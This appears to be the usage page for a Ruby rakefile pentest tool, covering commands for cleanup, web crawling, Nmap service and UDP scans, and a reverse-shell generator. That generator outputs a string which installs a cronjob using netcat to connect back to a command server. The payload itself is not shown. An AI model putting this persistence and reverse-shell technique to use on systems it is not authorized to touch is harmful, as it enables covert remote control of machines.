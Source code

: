 ### clean
```ruby
ruby rakefile.rb --clean
```
This command will remove any text files that are in the current directory. 

```ruby
rake clean
```


### Reverse Shell
```ruby
ruby rakefile.rb --rs 127.0.0.1 2222
```
This command needs an IP and a port. This command will output a string that when ran will create a cronjob on the system that will 
use netcat to connect to the command server. 

```ruby
rake rs["127.0.0.1","2222"]
```
`127.0.0.1` is the IP and `2222` is the port. 


### Crawl
```ruby
ruby rakefile.rb --crawl https://google.com/
```

The crawl command will crawl every URL on the site & create a txt file that contains all the links.

```ruby
rake crawl["https://google.com"]
```


### Nmap service scan

```ruby
ruby rakefile.rb --sv 192.168.1.110
```
It will use Nmap to perform a service scan (-sV) on the given IP. Nmap must be installed on the system.
```ruby
rake sv["192.168.1.110"]
```

### Nmap UDP scan
```ruby
sudo rake udp["192.168.2.220"]
```
This will perform a UDP scan on the target and create a text file with the details. This command must be ran with sudo. Again, nmap has to be installed on the computer.

```ruby
sudo ruby rakefile.rb --sv 192.168.1.220
```